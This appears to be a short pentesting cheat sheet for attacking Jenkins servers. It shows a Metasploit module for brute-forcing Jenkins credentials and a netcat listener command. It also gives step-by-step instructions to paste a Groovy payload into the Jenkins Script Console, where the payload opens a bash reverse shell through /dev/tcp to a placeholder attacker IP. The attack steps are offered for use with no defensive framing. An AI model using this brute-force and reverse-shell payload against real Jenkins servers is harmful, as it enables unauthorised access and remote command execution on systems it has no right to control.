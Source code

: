 ```yaml
---
title: Jenkins Pentesting
desc: 
tags: [Jenkins, Netcat, Reverse Shell, Web]
alts: []
render_with_liquid: false
---
```


## 1. Brute Force Credentials

```sh
msfconsole
msf > use auxiliary/scanner/http/jenkins_login
```

<br />

## 2. Reverse Shell on Dashboard

You need to have the credential.

1. **Opening Listener on Your Local Machine**

    ```sh
    nc -lvnp 4444
    ```

2. **Login to Jenkins**

    Access "http://localhost:8080" in browser and login.

3. **Click "Manage Jenkins" -> "Script Console"**

4. **Add the Payload in the Console**

    ```java
    r = Runtime.getRuntime()
    p = r.exec(["/bin/bash", "-c", "exec 5<>/dev/tcp/<Attacker_IP>/4444; cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
    p.waitFor()
    ```

5. **Click "Run"**

    Then you should get a shell.